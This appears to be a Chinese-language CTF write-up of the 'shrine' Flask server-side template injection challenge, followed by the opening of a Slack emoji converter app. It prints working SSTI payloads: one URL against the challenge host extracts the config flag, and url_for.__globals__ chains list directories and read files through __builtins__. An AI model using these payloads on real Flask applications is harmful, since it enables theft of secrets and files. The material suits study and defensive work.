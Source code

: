 ```python
            try:
                for k, v in obj.items():
                    yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)
            except:
                pass
        
        # items
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)
            
    yield from visit(obj)
```

### 寻找config

```python
for path, obj in search(flask.request, 10):
	if str(obj) == app.config['FLAG']:
	return path
```

`obj.application.__self__._load_form_data.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']`

除了`request`对象之外，其他全局变量类似于`g`, `session`通过更多或更少层次的遍历，也是可以找到flag。

flask全局参数（变量+方法）: `config`, `request`,`g`,`session`,`self`, `url_for`。

### payload

```python
http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Brequest.application.__self__._load_form_data.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']%7D%7D
```

```
url_for.__globals__['current_app'].config.FLAG
url_for.__globals__.__getitem__('os').listdir('./')
url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag_secret_file_910230912900891283').read()
```

# Slack emoji converter


  ```python

from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    make_response,
)
from PIL import Image
import tempfile
import os


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')
  ```
